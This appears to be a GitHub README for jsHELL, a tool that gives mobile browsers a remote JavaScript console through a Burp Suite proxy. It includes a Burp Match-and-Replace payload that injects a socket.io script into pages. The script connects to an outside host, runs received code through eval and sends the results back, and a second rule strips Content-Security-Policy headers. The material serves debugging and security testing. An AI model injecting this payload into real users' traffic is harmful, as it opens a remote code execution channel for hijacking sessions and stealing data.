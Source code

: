 **jsHELL tries to simulate javascript console for Mobile Browsers. Normally javascript consoles are available for Desktop browsers but not for Mobile browsers. jsHELL uses WebSocket to establish connection between the mobile browser and your Desktop terminal to send the javascript code and receive it's output.**

**How to run?** 

    rlwrap ./jsHELL.py IpAddress Port
    
    Example: rlwrap ./jsHELL.py 127.0.0.1 8080
    
**HTTPS Setup** 

    Step 1. Export DER cert and private key from Burp Suite.
    Step 2. openssl rsa -inform der -in burp-key.der -out key.pem
    Step 3. openssl x509 -inform der -in cacert.der -out certificate.pem

**Injecting to webview or other pages from Burp Proxy**

[ Proxy > Options > Match and Replace ]

\- To inject payload to pages.

`Type`: `Response Body`

`Match` : `</title>`

`Replace` :
```
</title><script src="https://cdn.socket.io/4.4.1/socket.io.min.js"></script> <script>  var socket = io.connect('https://10.11.3.2:8089');     try{setTimeout(`socket.emit('sendMSG','Connection Established.')`,1000)}     catch{}     socket.on('getMSG',function(data){         try{              output=eval(data)+""         }         catch(e){             output=e+""         }         socket.emit('sendMSG',output)     }) </script>
```

Note - Change the IP address. If target page does not has </title> tag in response then modify it accordingly.

\- To disable CSP so that our payload would execute.

`Type`: `Response Header`

`Match` : `Content-Security-Policy`

`Replace` : `Content-Security-Policy-X`
